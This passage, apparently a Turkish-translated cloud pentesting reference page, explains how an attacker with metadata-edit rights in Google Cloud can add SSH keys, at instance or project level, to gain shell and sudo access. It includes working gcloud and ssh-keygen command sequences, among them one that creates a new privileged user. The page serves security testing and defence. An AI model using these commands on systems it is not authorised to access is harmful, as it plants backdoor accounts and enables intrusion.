 # GCP - Özel SSH Metadata Ekle

## GCP - Özel SSH Metadata Ekle

{{#include ../../../../banners/hacktricks-training.md}}

### Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

#### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkili SSH genel anahtarlarındaki güncellemeleri** kontrol etmek için örnek metadata uç noktasını **düzenli olarak kontrol etmek** üzere tasarlanmış [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dır.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir; bu anahtar işlenecek ve **yerel sisteme entegre edilecektir**. Anahtar, **mevcut bir kullanıcının veya potansiyel olarak `sudo` ayrıcalıkları olan yeni bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenecektir. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

#### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**

- Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlamak üzere komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarı altında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önündedir ve iki nokta üst üste ile ayrılmıştır.

2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için gereklidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**

- Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın ve yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Yeni genel anahtarı `meta.txt` dosyasına ekleyin, örneğin metadata'da bulunan formatı taklit ederek.

4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**

- Güncellenmiş SSH anahtarı metadata'sını örneğe uygulamak için `gcloud compute instances add-metadata` komutunu kullanın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**

- Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı bağlamında shell'e erişin (`alice` bu örnekte).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bulut ortamında birden fazla Sanal Makineye (VM) SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**

- `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, eğer bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmemişse.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
- Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
- Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanmış SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
